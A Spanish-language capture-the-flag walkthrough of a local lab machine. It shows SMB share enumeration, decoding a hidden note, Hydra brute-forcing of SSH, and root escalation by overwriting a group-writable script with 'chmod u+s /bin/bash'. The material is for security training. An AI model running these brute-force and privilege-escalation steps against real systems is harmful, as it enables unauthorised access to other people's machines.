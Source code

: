 Empezamos haciendo un escaneo de puertos:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

Y nos da los siguientes puertos abiertos:

```
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:df:30:8b:17:c5:3c:80:1c:88:f1:f8:c0:ac:cc:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIwcQLG7cG3zykVrxNhY3Zf8Oeu1rZrDHXovo6xce8rYj7bvEKWHidRa32QtZQlumnfzwSMFrfeat8T1st72IVI=
|   256 aa:6a:33:65:fc:54:b7:8f:98:ff:1f:3d:79:a3:05:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPi9HNorx51v8Q8nh0LuhsEgTIC1KB/UrY6Sw5/Im9y4
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 4261/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Timeout)
|   Check 4 (port 17420/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-07-03T21:45:06
|_  start_date: N/A
|_clock-skew: 0s
```

Nos llama la atención el puerto 445, por lo tanto vamos a tirar el reconocimiento por ahí. 

Ejecutamos el siguiente comando:

```
smbclient -L 172.17.0.2 -N

    Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        darkshare       Disk      
        IPC$            IPC       IPC Service (5e24847105d5 server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 172.17.0.2 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

Nos conectamos a smb y vemos que hay un montón de archivos. Nos los descargamos todos.

```
smbclient  \\\\172.17.0.2\\darkshare
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Dec 14 05:24:32 2024
  ..                                  D        0  Sat Dec 14 05:24:32 2024
  archivesDatabases.txt               N      563  Sat Dec 14 05:16:30 2024
  ilegal.txt                          N      204  Sat Dec 14 05:24:32 2024
  credentials.txt                     N      631  Sat Dec 14 05:17:13 2024
  hackingServices.txt                 N      662  Sat Dec 14 05:18:19 2024
  drugs.txt                           N      526  Sat Dec 14 05:17:49 2024
```

El archivo que nos muestra algo importante es el de *ilegal.txt*:

```
cat ilegal.txt         

St qj htrufwyfx jxyf uflnsf f sfinj, xtqt vznjwt vzj qt ajfx yz, df vzj jxyt rj uzjij rjyjw jq uwtgqjrfx: q2kmnaxwhgdy2sz5wnqrarvrmuemzlfn5xewrdwxdgtdpeaxtpki6ini.tsnts

#NOTE:

use 5, you understand me
```

Vemos que es un mensaje que puede estar cifrado. Probamos en cyberchef a ver en que está cifrado.

En cyberchef conseguimos descifrarlo, estaba cifrado en rot 2. El mensaje descifrado es:

```
No le compartas esta pagina a nadie, solo quiero que lo veas tu, ya que esto me puede meter el problemas: l2fhivsrcbyt2nu5rilmvmqmhpzhugai5szrmyrsyboykzvsokfd6did.onion
```

Se trata de una página de tor al ser .onion 
Nos devuelve esta web:

![](./images/1.png)


Le damos a *Access the Darkest Web* y nos muestra esto:

![[Captura de pantalla 2025-07-04 002133.png]]

Seleccionamos *Red Room 27* y nos manda a esta página, donde le preguntamos por user, éste nos devuelve un nombre de usuario.

![[Pasted image 20250704002511.png]]

A continuación debemos buscar un diccionario para intentar hacer fuerza bruta con ese usuario 

En el apartado *Hidden Marketplace* vemos cosas sospechosas, por tanto leemos el código fuente y vemos un nombre de un posible diccionario

![[Captura de pantalla 2025-07-04 002919.png]]

Vemos que nos tiene que redirigir a un archivo de texto, pero no sabemos como, probamos poniéndolo en la url y tenemos premio


![[Captura de pantalla 2025-07-04 002722.png]]

Todas estas posibles contraseñas nos las metemos en un archivo y a continuación, con el usuario que tenemos (dark) hacemos fuerza bruta para entrar por ssh:

```
hydra -l dark -P contraseñas.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-03 18:32:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 51 login tries (l:1/p:51), ~4 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: dark   password: oniondarkgood
```

Y ahora entramos por ssh con estas credenciales y leemos la primera flag del usuario:

```
dark@5e24847105d5:~$ ls
hidden.py  user.txt
dark@5e24847105d5:~$ cat user.txt
2eedcb4e067f16aa9c795fd05f3056bd
dark@5e24847105d5:~$ 
```

Ahora para escalar privilegios hacemos un sudo -l:

```
dark@5e24847105d5:~$ sudo -l
Matching Defaults entries for dark on 5e24847105d5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dark may run the following commands on 5e24847105d5:
    (ALL : ALL) NOPASSWD: /home/dark/hidden.py
```

Vemos que ejecutamos como root ese script. Este script haría esto:

```
dark@5e24847105d5:~$ cat hidden.py 
#!/bin/python3

import subprocess

# Ruta al archivo Update.sh
script_path = '/usr/local/bin/Update.sh'

# Ejecutar el script de Bash
try:
    subprocess.run(['bash', script_path], check=True)
    print("Script ejecutado con éxito.")
except subprocess.CalledProcessError as e:
    print(f"Hubo un error al ejecutar el script: {e}")
```

Lo ejecutamos y:

```
dark@5e24847105d5:~$ ./hidden.py 
dark
Script ejecutado con éxito.
```

Si leemos el script vemos que ejecuta un Update.sh, que está en la ruta /usr/local/bin/. En dicha ruta somos del grupo de la carpeta por tanto podemos eliminarla y crearnos nuestro *Update.sh* de esta manera:

```
#!/bin/bash

chmod u+s /bin/bash
```

Lo guardamos, le damos permisos de ejecución y ahora si ejecutamos el script como sudo:

```
dark@5e24847105d5:~$ sudo /home/dark/hidden.py
Script ejecutado con éxito.
dark@5e24847105d5:~$ bash -p
bash-5.2# whoami
root
```

Y finalmente, pwned :)